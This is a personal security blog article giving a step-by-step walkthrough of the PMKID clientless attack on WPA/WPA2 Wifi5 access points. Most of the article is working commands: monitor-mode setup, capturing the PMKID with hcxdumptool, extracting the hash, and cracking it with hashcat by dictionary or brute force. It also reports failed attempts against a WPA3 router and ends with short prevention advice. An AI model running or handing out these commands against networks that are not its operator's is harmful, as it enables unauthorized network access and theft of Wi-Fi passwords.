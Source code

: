 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) (with roaming feature) without client involved.  That is 4-way handshake is no longer required - clientless.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://hexway.io/research/r00kie-kr00kie/)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom's.  [KRACK](https://www.krackattacks.com/) was not tested as Support of TP-Link Deco Apps mentioned that Deco X20 is not vulnerable to this attack.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  
- TP-Link Deco X20 is set to WPA2 only  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

### Prevention

- Purchase a modern wifi router, such as Wifi6 router with WPA3; or/and  
- WPA/WPA2 password should be secured enough  

### Q&A

- What do you mean secured password?  
It should be a very long (longer than 16 characters) and mixed cases (uppercase and lowercase) as well as including printable symbols.  Meanwhile, the password should not be predictable and it should not be found in any dictionary.

- What do you mean dictionary?  
It includes general dictionaries, such as Oxford Dictionary and hackers' dictionaries (password lists), such as ```rockyou.txt```. 

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  
Updated on March 21 & 22, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

